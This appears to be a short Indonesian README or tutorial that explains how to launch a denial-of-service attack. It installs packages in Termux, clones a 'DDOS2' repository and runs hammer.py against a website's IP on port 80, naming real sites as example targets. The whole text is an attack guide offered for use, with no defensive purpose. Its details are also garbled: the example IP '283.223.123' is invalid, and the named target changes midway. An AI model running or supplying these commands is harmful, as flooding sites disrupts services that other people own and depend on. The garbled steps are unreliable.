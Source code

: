 # SERANGAN DDOS ATTACK
$apt update && apt upgrade
$pkg install git && pkg install python

$git clone https://github.com/reyspeed/DDOS2
$cd DDOS2
$python hammer.py




Carilah alamat ip sebuah website dengan menggunakan perintah :

ping (namawebsite.com) 

Contohnya :

ping www.xnxx.com

Setelah kita mendapatkan alamat ip target, disini saya mendapatkan alamat website nekopoi.care, lalu jika kita ingin melakukan penyerangan terhadap situs target, lakukan dengan perintah :

python hammer.py -s (Alamat Ip) -p 80 -t 135

Contohnya disini saya akan menyerang situs www.xnxx.com


python hammer.py -s 283.223.123 -p 80 -t 135

 Dan penyerangan (DDOS)
